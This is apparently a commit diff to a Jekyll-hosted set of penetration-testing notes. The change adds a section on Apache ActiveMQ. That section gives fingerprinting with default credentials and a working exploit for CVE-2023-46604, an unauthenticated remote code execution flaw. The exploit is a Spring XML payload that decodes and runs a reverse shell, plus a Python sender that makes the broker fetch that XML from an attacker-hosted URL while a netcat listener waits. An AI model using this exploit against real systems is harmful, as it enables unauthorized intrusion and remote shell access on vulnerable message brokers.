

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from web/web_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 15860 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
docs: add Apache ActiveMQ CVE-2023-46604 RCE and sudo nginx WebDAV root file-write

````diff
--- a/web/web_exploitation.md
+++ b/web/web_exploitation.md
@@ -754,6 +754,47 @@
 
 ---
 
+## Apache ActiveMQ
+
+Fingerprint: HTTP console on 8161 (or proxied on 80, realm `ActiveMQRealm`, default
+`admin:admin`) plus the transport cluster 1883/5672/61613/61614 and **61616 (OpenWire)**.
+
+```bash
+# Pin the version from the console (does NOT gate the exploit, just confirms)
+curl -s -u admin:admin http://$IP:8161/admin/index.jsp | grep -o '5\.[0-9.]*'
+```
+
+**CVE-2023-46604 — OpenWire unauth RCE (fixed in 5.15.16 / 5.16.7 / 5.17.6 / 5.18.3)**
+OpenWire instantiates an attacker-named class via reflection; point it at
+`ClassPathXmlApplicationContext` + a URL to your Spring XML, which builds a ProcessBuilder.
+```xml
+<!-- poc.xml on your http.server. base64 the cmd to dodge XML-unsafe < > & -->
+<beans xmlns="http://www.springframework.org/schema/beans"
+  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
+  xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
+  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
+    <constructor-arg><list>
+      <value>/bin/bash</value><value>-c</value>
+      <value>echo BASE64REVSHELL | base64 -d | bash</value>
+    </list></constructor-arg>
+  </bean>
+</beans>
+```
+```python
+# sender — OpenWire packet: marshaller type 1f, then length-prefixed class + url
+import socket, sys
+ip, port, url = sys.argv[1], int(sys.argv[2]), sys.argv[3]
+cls = "org.springframework.context.support.ClassPathXmlApplicationContext"
+h=lambda s:s.encode().hex(); i4=lambda n:format(n,'04x'); i8=lambda n:format(n,'08x')
+body = "1f00000000000000000001" + "01"+i4(len(cls))+h(cls) + "01"+i4(len(url))+h(url)
+s=socket.socket(); s.connect((ip,port)); s.send(bytes.fromhex(i8(len(body)//2)+body)); s.close()
+# python3 sender.py $IP 61616 http://$LHOST:8000/poc.xml   (host poc.xml + nc -lvnp first)
+```
+> The broker fetches the XML twice; foothold lands as the `activemq` service user. Ref PoC:
+> evkl1d/CVE-2023-46604 (sender only talks to the target — the payload is your hosted XML).
+
+---
+
 ## Deserialization
 
 ### Identification markers
````
Also changed, not shown: privesc/privesc_main.md (+30 -0 lines).
